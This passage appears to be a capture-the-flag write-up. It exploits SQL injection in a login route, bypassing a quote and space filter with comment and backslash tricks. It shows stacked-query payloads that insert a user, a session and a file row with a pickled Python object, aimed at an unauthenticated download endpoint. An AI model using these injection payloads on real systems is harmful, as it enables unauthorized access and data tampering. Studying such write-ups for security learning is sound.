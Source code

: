 During my crusing through the code I noticed that the sql statement in the `/login` route code isn't sanitized or predetermined, so it was an obvious sql injection triggered by the `executescript()` function call.

The only thing in place is a simple function that filters out some characters

```python
def DBClean(string):
    for bad_char in " '\"":
        string = string.replace(bad_char,"")
    return string.replace("\\", "'")
```

but that was easy to bypass as we can in sqlite just replace spaces with `/**/` and single quotes with `\` which is given by the function.

So here I tried to inject a new user as so:

```
a\;INSERT/**/INTO/**/users/**/(username,password)/**/VALUES/**/(\aaa\,\aaa\);--
```

and sure enough, pulling up the users using the cli reveals that my attemp was successful and the user `aaa` was injected 

```
sqlite> select * from users;
admin|admin
aaa|aaa
sqlite>
```
But since we can't even login to get a valid and signed session cookie from the app we need to interact with all routes. So I searched through the routes and found out that the api endpoint `/download/<filename>/<sessionid>` doesn't need authentication, it only requires a valid file and a valid session id. So I injected those:

```
a\;INSERT/**/INTO/**/activesessions/**/(sessionid, timestamp,username)/**/VALUES/**/(\aaaaaa\,\1\,\aaa\);--

a\;INSERT/**/INTO/**/files/**/VALUES/**/(\file.txt\,\gASVDgAAAAAAAABDCmxvbCBnb3R0ZW2ULg==\,NULL);--
```

with the base64 string being a base64 encoded pickled python object

So I tried to download the flag but I got an error

### Debugging the download error

That process wasn't as straight forward as the python packages I used were up-to-date and not dated as given by the `requirements.txt` file.

But looking back at the definition (and as pointed out by a fellow player) of the function call `send_file` that is used doesn't contain a `download_name` parameter which throws an error.
